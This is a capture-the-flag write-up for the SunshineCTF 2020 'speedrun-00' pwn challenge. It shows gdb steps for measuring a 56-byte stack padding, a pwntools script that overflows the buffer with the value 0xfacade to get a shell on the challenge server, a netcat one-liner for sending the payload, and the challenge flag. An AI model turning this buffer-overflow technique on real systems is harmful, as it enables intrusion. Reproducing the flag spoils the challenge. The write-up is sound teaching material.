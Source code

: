 # speedrun-00
Points: **10 points**

nc chal.2020.sunshinectf.org 30000

## Sanic mode
My friend went ahead on that one, he told me it was a pwn chall and sent me the decompiled code, we started using ghidra-headless, he told me it was a buffer-overflow vuln and that we had to write a specific sequence to the stack.

Let's go, here's the main function:

![main.c](main-function.png "main source code")

As we have to adjust the padding to write, I launched it on gdb and sent a bunch of A's and checked the stack just before the first comparison:

```bash
$ pad 56
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ gdb ./chall_00
gdb-peda $ b* main+37
gdb-peda $ r 
Starting program: /hdd/ctf/sunshine/speedrun-00/chall_00
This is the only one
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Here's the disassemble of gdb and the stack:

![gdb disassemble of main](gdb_disassembly.png "gdb disassemble of main")

![gdb padding](gdb_padding.png "gdb output")

We are missing just 4 bytes, so we append 4 chars and then we have to write _0xfacade_. 

So, time to write the exploit. My friend that tried the chall earlier, successfully got the shell, but couldn't send commands because the file descriptor of the shell was closing, that's why we are going to use pwntools, but if you want to try it by hand, sending the payload via nc, using bash:

```bash
$ (echo some-payload ; cat) | nc chal.2020.sunshinectf.org 30000
```

Got it from: https://youtu.be/HSlhY4Uy8SA 

my pwntools code:

```python
#!/usr/bin/env python
from pwn import *

e = ELF('chall_00')
# io = e.process()
io = remote('chal.2020.sunshinectf.org', 30000)
# context.terminal = ['tmux', 'splitw','-h']
# gdb.attach(io)

io.recvuntil('one\n')

payload = b"A" * 56 + b"B"*4 + p32(0xfacade)
io.sendline(payload)

io.interactive()

```

![proof-of-concept](proof.png "proof of concept")

## Flag
sun{burn-it-down-6208bbc96c9ffce4}
